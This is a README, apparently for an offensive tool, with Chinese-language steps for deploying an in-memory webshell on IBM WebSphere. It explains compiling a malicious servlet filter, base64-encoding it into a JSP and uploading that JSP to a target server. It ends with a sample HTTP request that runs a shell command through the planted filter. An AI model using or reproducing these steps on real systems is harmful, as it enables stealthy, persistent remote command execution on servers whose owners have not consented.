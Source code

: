 # WebsphereMemoryWebshell

Websphere内存马

## 使用方式

1. 自行修改`src/EvilFilter.java`中webshell实现方式，然后编译EvilFilter.java

```bash
cd src;
javac -classpath javax.servlet-api-4.0.1.jar ./EvilFilter.java
```

2. 将生成的字节码转为base64格式

```bash
cat EvilFilter.class | base64 -w 0 > EvilFilter.class.base64
```

3. 将EvilFilter.class.base64复制到`jsp/webshell.jsp`的第40行

4. 此外还可以自行修改`jsp/webshell.jsp`的第25-27行

```jsp

private static String filterName = "EvilFilter";
private static String filterClassName = "EvilFilter";
private static String url = "/ccc";
```

5. 将jsp文件上传到目标服务器

6. 访问

```
GET /ccc?cmd=touch%20/tmp/success HTTP/1.1
Host: 192.168.76.130:9443
Connection: close

```
